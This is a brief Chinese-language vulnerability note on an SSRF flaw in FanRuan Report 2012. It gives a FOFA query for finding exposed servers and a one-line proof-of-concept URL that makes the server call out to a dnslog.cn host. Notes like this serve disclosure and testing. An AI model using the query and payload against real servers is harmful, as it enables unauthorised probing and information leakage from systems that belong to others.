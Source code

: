 # 帆软报表 2012 SSRF漏洞

## 漏洞描述

帆软报表 2012 存在信息泄露漏洞，通过访问特定的Url获取造成SSRF

## 漏洞影响

```
帆软报表 2012
```

## FOFA

```
body="down.download?FM_SYS_ID"
```

## 漏洞复现

漏洞验证Url为

```plain
/ReportServer?op=resource&resource=0m0m6k.dnslog.cn
```

![image-20220209113126929](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091131035.png)

